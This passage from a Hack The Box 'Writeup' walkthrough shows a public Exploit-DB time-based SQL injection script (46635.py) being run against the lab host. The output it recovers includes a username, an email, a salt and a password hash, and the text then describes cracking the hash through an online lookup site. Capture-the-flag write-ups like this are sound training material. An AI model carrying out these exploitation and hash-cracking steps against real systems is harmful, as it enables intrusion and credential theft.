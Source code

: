 OR

~~~bash
root@kali:~/0x4a/Hackthebox/Writeup# python 46635.py
[+] Specify an url target
[+] Example usage (no cracking password): exploit.py -u http://target-uri                                                       
[+] Example usage (with cracking password): exploit.py -u http://target-uri --crack -w /path-wordlist                           
[+] Setup the variable TIME with an appropriate time, because this sql injection is a time based. 
~~~



~~~bash
python 46635.py -u http://10.10.10.138
# Supplying the above parameter failed, so we can try perhaps to include the /writeup directory as it may not have been able to access the SQL injection parameters from the web root

python 46635.py -u http://10.10.10.138/writeup
~~~



The second one successfully runs, giving us an output. It finds a salt as well, so let's assume it's a salted MD5.



~~~
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
~~~



We could try cracking it, but since it's salted we probably would not have any luck with it. We can search online in various MD5 cracking websites(Actually they're more of rainbow tables), to find them. This hash was found on [MD5Online][2].



![1570848003351](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Writeup/1570848003351.png)


[1]:  https://exploit-db.com
[2]: https://www.md5online.org/md5-decrypt.html
[3]: https://github.com/DominicBreuker/pspy
[4]: https://github.com/infodox/python-pty-shells
[5]: https://www.exploit-db.com/exploits/46635